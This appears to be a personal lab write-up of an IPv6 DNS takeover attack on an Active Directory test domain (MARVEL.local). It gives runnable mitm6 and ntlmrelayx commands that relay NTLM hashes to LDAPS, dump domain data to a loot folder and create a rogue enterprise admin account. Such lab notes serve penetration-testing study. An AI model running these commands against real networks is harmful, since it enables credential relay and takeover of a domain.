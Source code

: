 Run our mitm6 DHCP server:
```bash
sudo python3 ~/git/mitm6/mitm6/mitm6.py -d MARVEL.local -i eth1
```
Output:
![[Pasted image 20240314111555.png]]

Run ntlmrelayx:
```bash
impacket-ntlmrelayx -6 -t ldaps://10.0.0.18 -wh fakewpad.MARVEL.local -l loot
```
Args:
`-6`: Listen on both IPv6 and IPv4
`-t`: Target to relay the credentials to
`-wh`: WPAD host. Enable serving a WPAD file for Proxy Authentication attack. We can specify a fake hostname here since we control DNS via mitm6.
`-l`: Loot directory in which gathered loot such as SAM dumps will be stored

When we take a look at the *loot* folder, we can see that a lot of data was collected:
![[Pasted image 20240314111734.png]]

For example, if we open *domain_computers.html* in firefox we can see information about the computers:
![[Pasted image 20240314111926.png]]

The file *domain_users_by_group.html* contains interesting information about users:
![[Pasted image 20240314112453.png]]
- The users "SQL Server" and "Tony Start" never logged into their account (lastLogon). This could indicate that these are honeypot accounts.
- The password for the account "SQL Server" is present in the account description.

## Domain user account creation

Per default *impacket-ntlmrelayx* creates a domain user account via LDAP when a domain admin hash could be relayed. However, in our case this was not the case, apparently due to the ntlmrelayx version.
So I we had to use *pimpmykali* (https://github.com/Dewalt-arch/pimpmykali) in order to install an older version 0.9.19 of ntlmrelayx, where the account creation works.

mitm6 is also installed by *pimpmykali*, so we can run it like this:
```bash
sudo mitm6 -d MARVEL.local -i eth1
```

Run *ntlmrelayx.py* version 0.9.19:
```bash
ntlmrelayx.py -6 -t ldaps://10.0.0.18 -wh fakewpad.MARVEL.local -l loot2
```

When we login with a domain admin the NTLM hash is relayed and used to create a new user and add the user the the enterprise admin group:
![[Pasted image 20240314165147.png]]
![[Pasted image 20240314165051.png]]

When we check the users on the DC (refresh), we can see the newly created user:
![[Pasted image 20240314164603.png]]